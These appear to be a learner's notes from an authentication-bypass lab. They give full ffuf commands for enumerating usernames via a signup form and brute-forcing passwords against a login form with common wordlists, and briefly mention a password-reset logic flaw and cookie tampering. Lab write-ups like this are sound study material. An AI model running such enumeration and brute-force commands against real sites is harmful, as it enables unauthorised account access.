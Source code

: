 # Authentication Bypass
* Learning how to bypass authentication

## Username Enumeration
* Can use `ffuf` cmd line tool to construct which usernames already exist
* `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.100.134/customers/signup -mr "username already exists"`
* * https://github.com/ffuf/ffuf downloaded here
 
## Brute Force
* Using the found logins we can try brute force attack
* `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.100.134/customers/login -fc 200`

## Logic Flaw
* Code logic could contain a flaw in the pathways to say reset a password
* Vulernability is we can reset a password for an email and provide the username and our own email

## Cookie Tampering
* Examing and editing cookies might give us something
